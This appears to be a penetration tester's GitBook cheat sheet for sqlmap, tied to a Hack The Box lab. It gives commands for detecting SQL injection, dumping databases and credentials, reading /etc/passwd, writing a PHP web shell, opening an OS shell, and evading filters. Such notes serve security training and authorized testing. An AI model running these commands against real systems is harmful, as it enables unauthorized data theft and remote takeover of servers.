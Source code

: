 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# SQLMap

## Commands

### Detection

{% tabs %}
{% tab title="URL (GET)" %}
```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --batch -v 0
```
{% endtab %}

{% tab title="URL (POST)" %}
{% code overflow="wrap" %}
```bash
sqlmap -u "http://www.example.com/vuln.php"  --data "param=value" --batch -v 0
```
{% endcode %}
{% endtab %}

{% tab title="File" %}
```bash
sqlmap -r request_burp.req --batch -v 0
```
{% endtab %}

{% tab title="Aggresive" %}
```bash
sqlmap -r request_burp.req --batch -v 0 --level=5 --risk=3
```
{% endtab %}
{% endtabs %}

### Data Exfil

{% tabs %}
{% tab title="DB" %}
```bash
sqlmap -r request_burp.req --banner --current-user --current-db --is-dba
```
{% endtab %}

{% tab title="Tables" %}
```bash
sqlmap -r request_burp.req -D testdb --tables
```
{% endtab %}

{% tab title="Table Data" %}
```bash
sqlmap -r request_burp.req -D testdb -T testtable --dump
```
{% endtab %}

{% tab title="Columns" %}
```bash
sqlmap -r request_burp.req -D testdb -T testtable --dump -C col1,col2
```
{% endtab %}

{% tab title="Rows" %}
{% code overflow="wrap" %}
```bash
sqlmap -r request_burp.req -D testdb -T testtable --dump -C --start=1 --stop=10
```
{% endcode %}
{% endtab %}

{% tab title="Schema" %}
```bash
sqlmap -r request_burp.req --schema
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Cond Enum" %}
{% code overflow="wrap" %}
```bash
sqlmap -r request_burp.req -D testdb -T testtable --dump --where="col1 LIKE 'f%'" --batch -v 0
```
{% endcode %}
{% endtab %}

{% tab title="Full DB Enum" %}
```bash
sqlmap -r request_burp.req -D testdb --batch -v 0
```
{% endtab %}

{% tab title="Full DBMS" %}
{% code overflow="wrap" %}
```bash
sqlmap -r request_burp.req --dump-all --exclude-sysdbs --batch -v
```
{% endcode %}
{% endtab %}

{% tab title="Hail Mary" %}
```bash
sqlmap -r request_burp.req --all --batch -v 0
```
{% endtab %}
{% endtabs %}

### Advanced Data Exfil

{% tabs %}
{% tab title="Table Name" %}
```bash
sqlmap -r request_burp.req --search -T tableName --batch -v 0
```
{% endtab %}

{% tab title="Col Name" %}
```bash
sqlmap -r request_burp.req --search -C colName --batch -v 0
```
{% endtab %}

{% tab title="Connection Creds" %}
```bash
sqlmap -r request_burp.req --passwords --batch -v 0
```
{% endtab %}
{% endtabs %}

### OS Exploitation

{% tabs %}
{% tab title="Read" %}
```bash
sqlmap -r request_burp.req --batch -v 0 --file-read "/etc/passwd"
```
{% endtab %}

{% tab title="Write" %}
{% code overflow="wrap" %}
```bash
sqlmap -r request_burp.req --batch -v 0 --file-write "shell.php" --file-dest "/var/www/html/shell.php"
```
{% endcode %}
{% endtab %}

{% tab title="RCE" %}
```bash
sqlmap -r request_burp.req --batch -v 0 --os-shell
```
{% endtab %}
{% endtabs %}

{% hint style="danger" %}
DBAs needs certain privileges to be able to write files. Local access is also required such as write permissions in the directory we want to write to.
{% endhint %}

### Bypasses

{% tabs %}
{% tab title="Unique Value" %}
```bash
sqlmap -r request_burp.req --batch -v 0 --randomize=rp 
```
{% endtab %}

{% tab title="Calculated Param" %}
{% code overflow="wrap" %}
```bash
sqlmap -r request_burp.req --batch -v 0 --eval="import hashlib; h=hashlib.md5(id).hexdigest()"
```
{% endcode %}
{% endtab %}

{% tab title="Agent" %}
{% code overflow="wrap" %}
```bash
sqlmap -r request_burp.req --batch -v 0 --random-agent
```
{% endcode %}
{% endtab %}

{% tab title="Chunked" %}
```bash
sqlmap -r request_burp.req --batch -v 0 --chunked
```
{% endtab %}

{% tab title="HPP" %}
```bash
sqlmap -r request_burp.req --batch -v 0 -hpp
```
{% endtab %}
{% endtabs %}

## Usage

{% hint style="info" %}
The lab used is from the [Web Enumeration & Exploitation](https://academy.hackthebox.com/module/163/section/1544) section of the[ Attacking Enterprise Networks](https://academy.hackthebox.com/module/details/163) module from HTB.
{% endhint %}

### cURL

Copy as `cURL` from browser's Network tab (Figure 1).

<figure><img src="../../../.gitbook/assets/sqlmap_curl_copy.png" alt=""><figcaption><p>Figure 1: Copying the cURL command via Mozilla's Network tab.</p></figcaption></figure>

Change `curl` to `sqlmap` (Figure 2). If a specific parameter needs to be tested, we can use the `*` as follows: `--data 'uid=1*&name=test'`.&#x20;

> _`--batch` chooses the defaults when prompted, `-v 0` reduces the verbosity level._

<figure><img src="../../../.gitbook/assets/sqlmap_curl2sqlmap.png" alt=""><figcaption><p>Figure 2: Changing cURL to sqlmap and we are good to go!</p></figcaption></figure>

### HTTP Requests

Capture the Request Headers and POST data via the browser or Burp (Figure 3).

> _From Mozilla `Copy Value` -> `Copy Request Headers` and then add the parameters via `Copy Value` -> `Copy POST Data`._

<figure><img src="../../../.gitbook/assets/sqlmap_copy_reqheaders_burp.png" alt=""><figcaption><p>Figure 3: Copying the POST request to a file with Burp Suite.</p></figcaption></figure>

Supply the file to SQLMap (Figure 4).

<figure><img src="../../../.gitbook/assets/sqlmap_req_file.png" alt=""><figcaption><p>Figure 4: Using SQLMap with a request file.</p></figcaption></figure>

## Resources

{% tabs %}
{% tab title="GitHub Repo" %}
{% embed url="https://github.com/sqlmapproject/sqlmap" %}
{% endtab %}

{% tab title="Wiki" %}
{% embed url="https://github.com/sqlmapproject/sqlmap/wiki/Introduction" %}
{% endtab %}
{% endtabs %}
